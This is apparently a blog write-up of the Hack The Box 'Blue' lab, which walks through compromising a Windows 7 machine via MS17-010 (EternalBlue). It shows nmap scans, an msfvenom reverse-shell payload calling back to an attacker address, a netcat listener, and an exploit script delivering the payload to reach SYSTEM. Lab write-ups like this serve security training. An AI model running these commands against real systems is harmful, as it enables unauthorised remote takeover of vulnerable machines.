 ```yaml
---
title: "HTB Blue"
date: 2022-18-12T18:22:03-05:00
draft: false
---
```


#### Initial nmap

```bash
nmap -p -T5 $IP

PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
2903/tcp  filtered extensisportfolio
6851/tcp  filtered unknown
10686/tcp filtered unknown
43145/tcp filtered unknown
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown
51772/tcp filtered unknown
56599/tcp filtered unknown
56912/tcp filtered unknown
61146/tcp filtered unknown
64705/tcp filtered unknown
```

#### Concentrated nmap

```bash
sudo nmap -p 135,139,445,2903,6851,10686,43145,49152,49153,49154,49155,49156,49157,51772,56599,56912,61146,64705 -A -T5 $IP

PORT      STATE  SERVICE           VERSION                                                                                                                                                                                                  
135/tcp   open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
139/tcp   open   netbios-ssn       Microsoft Windows netbios-ssn                                                                                                                                                                            
445/tcp   open   microsoft-ds      Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                                                                                                           
2903/tcp  closed extensisportfolio                                                                                                                                                                                                          
6851/tcp  closed unknown                                                                                                                                                                                                                    
10686/tcp closed unknown                                                                                                                                                                                                                    
43145/tcp closed unknown                                                                                                                                                                                                                    
49152/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49153/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49154/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49155/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49156/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49157/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
51772/tcp closed unknown                                                                                                                                                                                                                    
56599/tcp closed unknown                                                                                                                                                                                                                    
56912/tcp closed unknown                                                                                                                                                                                                                    
61146/tcp closed unknown                                                                                                                                                                                                                    
64705/tcp closed unknown                                                                                                                                                                                                                    
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (99%), Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (96%)                                                                                                                                                                  
No exact OS matches for host (test conditions non-ideal).                                                                                                                                                                                   
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-12-18T19:42:20
|_  start_date: 2022-12-18T19:34:24
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-18T19:42:19+00:00
|_clock-skew: mean: 2s, deviation: 1s, median: 1s

TRACEROUTE (using port 51772/tcp)
HOP RTT      ADDRESS
1   41.17 ms 10.10.14.1
2   41.24 ms 10.129.30.209
```

A lot of information comes back from the nmap scan, however the version that comes back on port 445 show us it is a windows 7 machine. With it being Win7 I believe it is valuable to check for EternalBlue.

(From the nmap scan above)
`Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

#### Finding & Exploiting Eternal Blue

Using a script from this repo I can gather the information needed to verify whether the machine is vulnerable to MS17-010 (EternalBlue). Not without a few issues first however.

Firstly, because the command python is pointed to python3 in the 2022.4 version of kali we much modify/add the shebang line at the top of each script we use to say `#!/usr/bin/python2`

Now that this is fixed I am receiving the following error - 

{{< image src="/static/Pasted image 20221218141024.png" alt="Error1" position="center" style="border-radius: 8px;" >}}

To fix this error I will clone impacket into the same working directory as the previous scripts `/htb/windows/blue/MS17-010` . This may vary depending on your workspace & how you have things setup in your environment.

#### Installing impacket -  
*This will require pip for python2*
To install pip for python2 run these commands
```bash
sudo apt update
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
```

Once finished continue to install impacket.

Step 1 - Clone the github repository
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```

Step 2 - cd into the directory
```bash
cd impacket
```

Step 3 - install impacket using pip 
```bash
python2 setup.py install
```

Impacket has successfully installed however I am receiving another error.
{{< image src="/static/Pasted image 20221218142604.png" alt="Error2" position="center" style="border-radius: 8px;" >}}

I must install this dependencies as well.

```bash
pip2 install pyasn1_modules
```

Again for Cryptodome.Hash

```bash
pip2 install cryptodome && pip2 install cryptodomex
```

#### Running the script

```bash
./checker.py $IP

Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

#### Creating a reverse shell using an msfvenom payload

```bash 
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.88 LPORT=443 > svc_host.exe
```

#### Start netcat listener

```bash
nc -lvnp 443
```

#### Run send_and_execute.py

```bash
./send_and_execute.py $IP ../svc_host.exe 445 lsarpc
```

{{< image src="/static/Pasted image 20221218144853.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Looks like an access denied error. I will try and edit the script and add `guest` to the username line, and leave the password blank.

{{< image src="/static/Pasted image 20221218145035.png" alt="script_edit" position="center" style="border-radius: 8px;" >}}

Now I will rerun the script.

It completed succesfully, and i now have a reverse shell.

{{< image src="/static/Pasted image 20221218145224.png" alt="revshell" position="center" style="border-radius: 8px;" >}}

#### Post-Exploit - 

{{< image src="/static/Pasted image 20221218145359.png" alt="revshell" position="center" style="border-radius: 8px;" >}}

I am `nt authority\system`. This machine is rooted and complete. The flags can be found on the Desktop's of the user & administrator! 
